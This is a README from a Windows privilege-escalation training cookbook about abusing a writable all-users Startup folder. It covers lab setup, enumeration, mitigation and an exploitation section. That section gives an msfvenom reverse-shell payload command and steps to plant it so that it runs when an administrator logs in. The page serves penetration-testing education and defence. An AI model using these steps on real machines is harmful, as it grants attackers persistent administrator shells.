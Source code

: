 # Logon Autostart Execution (Startup Folder)

[Back to Main](https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook?tab=readme-ov-file#vulnerabilities)

## Table of Contents

- [Logon Autostart Execution (Startup Folder)](#logon-autostart-execution-startup-folder)
  - [Table of Contents](#table-of-contents)
  - [Description](#description)
  - [Lab Setup](#lab-setup)
    - [Manual Lab Setup](#manual-lab-setup)
    - [PowerShell Script Lab Setup](#powershell-script-lab-setup)
  - [Enumeration](#enumeration)
    - [Manual Enumeration](#manual-enumeration)
    - [Tool Enumeration](#tool-enumeration)
  - [Exploitation](#exploitation)
  - [Mitigation](#mitigation)
  - [References](#references)

## Description

Logon Autostart Execution via Startup Folder is a Windows feature that enables specific programs or scripts to launch automatically when a user logs into the system. This feature allows these programs or scripts to launch automatically without any manual action from the user when the operating system starts up.

Attackers may exploit the Logon Autostart Execution feature by inserting malicious software into the Startup Folder. This enables the malicious code to automatically launch during system startup, potentially granting it elevated privileges. 

## Lab Setup

### Manual Lab Setup

:warning: <b>If you are using Windows 10 to proceed with this scenario, the local Administrator account needs to be enabled. I have created a PowerShell script named [EnableLocalAdmin.ps1](/Lab-Setup-Scripts/EnableLocalAdmin.ps1), designed to enable the local Administrator account and set a password. Please run this script with elevated privileges.</b>

1) Navigate via File Explorer to the directory which contains StartUp Folder using the following path:

```
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\
```

Outcome:

![Logon-Autostart-Execution-Startup-Folder-Lab-Setup-Part-1](/Pictures/AutostartStartupFolder-LabSetup-Part1.png)

2) Right click on Startup folder and choose properties option:

![Logon-Autostart-Execution-Startup-Folder-Lab-Setup-Part-2](/Pictures/AutostartStartupFolder-LabSetup-Part2.png)

3) Choose the 'Security' tab and select the 'Users' group:

![Logon-Autostart-Execution-Startup-Folder-Lab-Setup-Part-3](/Pictures/AutostartStartupFolder-LabSetup-Part3.png)

4) Assign Full Control or Read and Write permissions to the Users group and then press the 'Apply' button:

![Logon-Autostart-Execution-Startup-Folder-Lab-Setup-Part-4](/Pictures/AutostartStartupFolder-LabSetup-Part4.png)

### PowerShell Script Lab Setup 

:warning: <b>If you are using Windows 10/11 to proceed with this scenario, the local Administrator account needs to be enabled. I have created a PowerShell script named [EnableLocalAdmin.ps1](/Lab-Setup-Scripts/EnableLocalAdmin.ps1), designed to enable the local Administrator account and set a password. Please run this script with elevated privileges.</b>

To set up the lab with the 'Logon Autostart Execution (Startup Folder)' scenario use the custom PowerShell script named [LogonAutostartExecutionStartupFolder.ps1](/Lab-Setup-Scripts/LogonAutostartExecutionStartupFolder.ps1).

Open a PowerShelll with local Administrator privileges and run the script:

```
.\LogonAutostartExecutionStartupFolder.ps1
```

Outcome:

![Logon-Autostart-Execution-Startup-Folder-Lab-Setup-Script](/Pictures/AutostartStartupFolder-LabSetup-Script.png)

## Enumeration

### Manual Enumeration

To perform manual enumeration and identify whether a Windows workstation is vulnerable to the Startup Folder Autoruns issue, you can use the following command from a command prompt:

```
icacls "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```

Outcome:

![AutostartStartupFolder-Manual-Enumeration](/Pictures/AutostartStartupFolder-Manual-Enumeration.png)

### Tool Enumeration

To perform an enumeration of the `Startup Folder Autoruns` vulnerability, you can use accesschk.exe or accesschk64.exe from Sysinternals Suite and execute the following command with appropriate arguments:

```
accesschk.exe /accepteula "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```

Outcome:

![AutostartStartupFolder-Tool-Enumeration](/Pictures/AutostartStartupFolder-Tool-Enumeration.png)

## Exploitation

1) Use msfvenom to generate a malicious executable (exe) file that can be executed via the booting of the victim's machine:

```
msfvenom -p windows/x64/shell_reverse_tcp lhost=eth0 lport=1234 -f exe > shell.exe
```

2) Transfer the malicious executable file to victim's machine.

3) Move the malicious executable file to 'C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup'.

Outcome:

![AutostartStartupFolder-Exploitation](/Pictures/AutostartStartupFolder-Exploitation.png)

4) Open a listener on your Kali machine.

5) Reboot the victim's machine and login as Adminstrator:

![Reboot-victim-machine](/Pictures/Reboot-Victim-Machine2.png)

6) Verify the reverse shell on your Kali machine:

![Reverse-Shell-As-Admin-StartupFolderAutoRuns](/Pictures/Reverse-Shell-As-Admin-RegistryAutoRuns.png)

## Mitigation

Properly configured permissions within the Startup Folder act as a preventive measure against unauthorized modifications or executions of files within the directory. This proactive approach effectively reduces the likelihood of malicious programs or scripts launching automatically during system booting.

Moreover, to restore the default permissions of the Startup Folder, utilize the following commands with elevated privileges:

```
takeown /F "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup" /A /R /D Y
```

and

```
icacls "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup" /reset /T /C /Q
```

## References

- [Add an app to run automatically at startup in Windows 10 Microsoft](https://support.microsoft.com/en-us/windows/add-an-app-to-run-automatically-at-startup-in-windows-10-150da165-dcd9-7230-517b-cf3c295d89dd)
- [How To Find the Startup Folder in Windows 10 Softwarekeep](https://softwarekeep.com/help-center/how-to-find-the-startup-folder-in-windows-10)
